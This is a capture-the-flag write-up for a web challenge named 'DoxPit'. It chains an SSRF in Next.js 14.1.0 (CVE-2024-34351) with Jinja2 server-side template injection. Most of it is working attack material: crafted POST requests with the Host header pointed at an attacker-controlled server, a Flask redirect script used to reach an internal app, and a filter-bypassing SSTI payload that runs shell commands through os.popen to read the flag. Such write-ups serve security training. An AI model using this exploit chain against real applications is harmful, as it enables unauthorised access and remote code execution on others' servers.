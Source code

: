 # Challenge: DoxPit
## Rate: Medium

The WebApp is using Next.js version 14.1.0 which has [CVE-2024-34351](https://www.assetnote.io/resources/research/advisory-next-js-ssrf-cve-2024-34351).

![nextjs.png](nextjs.png)

So we can perform an SSRF attack.

```
POST / HTTP/1.1
Host: attacker.com
Content-Length: 2
Accept: text/x-component
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

[]
```

If we analyze the source code, there are two projects that exist in the folder. The `av` is written with Flask and is only accessible from local.

![flask.png](flask.png)

Examining more of this project we can see some routes: `/`, `/home`, `/register`, `/login`, `/logout`

- `routes.py`:
    
    ```python
    # more ...
    
    def auth_middleware(func):
      def check_user(*args, **kwargs):
        db_session = Database()
    
        if not session.get("loggedin"):
          if request.args.get("token") and db_session.check_token(request.args.get("token")):
            return func(*args, **kwargs)
          else:
            return redirect("/login")
    
        return func(*args, **kwargs)
    
      check_user.__name__ = func.__name__
      return check_user
      
    
    @web.route("/", methods=["GET"])
    def index():
      return redirect("/home")
      
    # more ...
    
    @web.route("/login", methods=["GET"])
    def login():
      username = request.args.get("username")
      password = request.args.get("password")
      
    # more ...
    
    @web.route("/register", methods=["GET"])
    def register():
      username = request.args.get("username")
      password = request.args.get("password")
      
    # more ... 
    ```
    

Now after examining the detailed [exploit of CVE-2024-34351](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps), we are able to send a request to the Flask web app by the below scenario:

1. `flaskRedirect.py`
    
    ```python
    from flask import Flask, Response, request, redirect
    app = Flask(__name__)
    
    @app.route('/', defaults={'path': ''})
    @app.route('/<path:path>')
    def catch(path):
        if request.method == 'HEAD':
            resp = Response("")
            resp.headers['Content-Type'] = 'text/x-component'
            return resp
        return redirect('http://0.0.0.0:3000/register?username=new&password=new')
    
    app.run(host="0.0.0.0", port=1234, threaded=True, debug=True)
    ```
    
2. Host the `flaskRedirect.py` on your controlled server.
3. Send this request:
    
    ```
    POST / HTTP/1.1
    Host: yourserver.com:1234
    Content-Length: 2
    Accept: text/x-component
    Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
    Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US,en;q=0.9
    Connection: keep-alive
    
    []
    ```
    

After sending this request a user is created for you. Here is the response of the Web App:

![token.png](token.png)

Now we have the token and have access to all routes.

![directory1.png](directory1.png)

![directory2.png](directory2.png)

As we can see the code is loading files using Jinja templates. so we can try SSTI.

![invalid-chars.png](invalid-chars.png)

But here’s the thing. There are some preventions in these files that limit us from performing SSTI attacks. So we can not use `{{`, `}}`, `.`, `_`, `[`, `]`, `\`, `x` in our payload.

Looking at common payloads in [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), we can easily find this payload:

```python
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
```

The only problem with the above payload is it uses `\` but we can not use it because it’s forbidden.

If we research about different payload structures in Jinja, we can find these things that work:

```python
{%with a=((((request|attr("application"))|attr(request|attr("args")|attr("get")("globals")))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("builtins"))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("import"))("os")|attr("popen")(request|attr("args")|attr("get")("cmd"))|attr("read")()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=cat /flag*
```

Now modify `flaskRedirect.py` again:

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://0.0.0.0:3000/home?token=56021495728f15002281f3999bb6f204&directory={%with a=((((request|attr("application"))|attr(request|attr("args")|attr("get")("globals")))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("builtins"))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("import"))("os")|attr("popen")(request|attr("args")|attr("get")("cmd"))|attr("read")()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=cat /flag*')

app.run(host="0.0.0.0", port=1234, threaded=True, debug=True)
```

Send the request again:

```
POST / HTTP/1.1
Host: yourserver.com:1234
Content-Length: 2
Accept: text/x-component
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

[]
```

And get the Flag:

![flag.png](flag.png)
